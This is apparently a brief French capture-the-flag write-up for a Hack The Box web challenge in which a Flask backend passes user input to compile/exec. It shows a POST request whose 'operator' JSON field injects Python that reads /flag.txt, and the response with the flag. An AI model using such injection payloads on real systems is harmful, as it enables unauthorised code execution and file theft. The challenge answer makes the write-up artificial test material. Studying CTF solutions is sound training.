 # web_evaluation_deck (1)

Attaque sur le backend en Flask (python): il y a un `compile/exec` sur l'input utilisateur

Avec postman:

POST request on: `http://IP/api/get_health`

```json
{
    "current_health": "100",
    "attack_power": "100",
    "operator": "\nimport os\nfd = os.open('/flag.txt', os.O_RDONLY)\nresult = str(os.read(fd, 500))\na = "
}
```

```json
{
    "message": "b'HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}'"
}
```
